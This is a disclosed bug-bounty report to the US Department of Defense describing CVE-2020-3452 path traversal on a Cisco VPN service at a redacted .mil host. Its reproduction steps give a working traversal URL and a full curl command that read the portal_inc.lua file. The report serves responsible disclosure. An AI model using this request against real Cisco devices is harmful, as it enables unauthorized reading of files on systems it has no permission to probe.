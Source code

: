 # [██████████.mil] Cisco VPN Service Path Traversal

## Report Details
- **Report ID**: 943717
- **URL**: https://hackerone.com/reports/943717
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-07-27T11:47:22.360Z
- **Disclosed**: 2020-10-16T19:48:27.895Z

## Reporter
- **Username**: arm4nd0
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hi team. 
&nbsp;
# Summary

The Cisco VPN Service at ```██████.mil``` is vulnerable to the CVE-2020-3452 vulnerability, which allows path traversing within the web service's file system on the targeted device.


&nbsp;
# Steps to Reproduce
Make a GET request to:
```http
https://███████.mil/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
```

cURL command:
```
curl -i -s -k -X $'GET' \
    -H $'Host: █████.mil' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: https://█████.mil/+CSCOE+/logon.html?fcadbadd=1' -H $'DNT: 1' -H $'Connection: close' -H $'Cookie: webvpnlogin=1; webvpnLang=en' -H $'Upgrade-Insecure-Requests: 1' \
    -b $'webvpnlogin=1; webvpnLang=en' \
    $'https://███.mil/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../'
```

..and get the content of the ```portal_inc.lua``` file.
███████

&nbsp;

## Impact

According to Cisco, this vulnerability cannot be used to obtain access to ASA or FTD system files or underlying operating system (OS) files, however, it has a CVE 7.5 (High) score.

## Attachments
No attachments
